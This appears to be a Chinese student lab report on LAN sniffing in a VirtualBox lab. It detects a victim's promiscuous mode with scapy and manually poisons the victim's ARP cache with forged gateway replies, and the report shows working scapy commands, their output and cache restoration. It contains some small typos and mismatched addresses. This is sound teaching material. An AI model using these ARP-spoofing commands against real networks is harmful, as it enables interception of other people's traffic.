 # 实验四 局域网主动监听实验

## 实验环境

+ VirtualBox
+ wireshark
+ tcpdump

## 实验流程

### 一、网络拓扑

**攻击者主机**

- 08:00:27:d1:a3:a4
- 192.168.138.255

![kali_attacker](./img/kali_attacker.png)

**受害者主机**

- 08:00:27:a6:1f:10
- 172.16.222.105

![debian_2](./img/debian_2.png)

**网关**

- 08:00:27:f6:ae:30
- 172.16.222.1

![](./img/debian_gw.png)

### 二、安装scapy

先在攻击者主机上装好python3和scapy

```bash
# 先安装python3
sudo apt update && sudo apt install python3 python3-pip

# 通过pip3安装scapy
pip3 install scapy[complete]
```

### 三、实验内容

#### 实验一：检测局域网中的异常终端

在受害者主机上检查网卡的「混杂模式」是否启用

```bash
ip link show enp0s3
```

![ip_link](./img/ip_link.png)

并没有启动，没有promise，去攻击者主机开启scapy，输入代码

```bash
# 在攻击者主机上开启 scapy
scapy
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.222.105")
```

**可以看到攻击者发送的试探靶机混杂模式的数据包是没有收到回复。同时在靶机上运行的wireshark也没有收到任何流量，说明当靶机的混杂模式没有打开时，是不会接收来自网络中的目的地址为其他主机的数据。**

```bash
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
ip link show enp0s3
sudo ip link set enp0s03 promisc on

# 此时会发现输出结果里多出来了 PROMISC 
ip 
ip a
```

![promisc](./img/promisc.png)

```bash
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.222.105")
```

**而当目标主机打开混杂模式，它就会接收来自所有接口的数据并回复。这一点在攻击者主机和目标主机的wireshark上都有所体现。可以发现的是，攻击者主机是通过ARP请求来判断目标主机是否工作在混杂模式的**

```bash
# 最后，在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set enp0s3 promisc off
ip link show enp0s3
```

![promisc_off](./img/promisc_off.png)

#### 实验二：手工单步“毒化”目标主机的 ARP 缓存

**以下代码在攻击者主机上的 scapy 交互式终端完成**

```bash
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.222.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()

# ###[ Ethernet ]###
#   dst= ff:ff:ff:ff:ff:ff
#   src= 08:00:27:d2:af:3c
#   type= ARP
# ###[ ARP ]###
#      hwtype= 0x1
#      ptype= IPv4
#      hwlen= None
#      plen= None
#      op= who-has
#      hwsrc= 08:00:27:d2:af:3c
#      psrc= 10.0.2.15
#      hwdst= 00:00:00:00:00:00
#      pdst= 172.16.222.1

# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc

# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 192.168.0.102
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="172.16.222.1", pdst="172.16.222.105", hwdst="08:00:27:d1:a3:a4")

# 发送上述伪造的 ARP 响应数据包到受害者主机
send(arpspoofed)
```

![arp](./img/arp.png)


此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

```bash
ip neigh
# 172.16.222.1 dev enp0s3 lladdr 08:00:27:d1:a3:a4 REACHABLE
# 192.168.138.255 dev enp0s3 lladdr 08:00:27:d1:a3:a4 STALE
```

![ip_neigh](./img/ip_neigh.png)

回到攻击者主机上的 scapy 交互式终端继续执行命令。

```bash
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.222.1", hwsrc="08:00:27:f6:ae:30", pdst="172.16.222.105", hwdst="08:00:27:a6:1f:10")
sendp(restorepkt1, count=100, inter=0.2)
```

此时在受害者主机上准备“刷新”网关 ARP 记录。

```bash
## 在受害者主机上尝试 ping 网关
ping 172.16.222.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```

![ping](./img/ping.png)

### 四、实验问题

1. 输入`pkt = promiscping("172.16.222.105")`发生报错

![error1](./img/error1.png)

此时需要把账号换成root账号，`sudo su`

### 五、参考链接

[课本第四章实验](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)

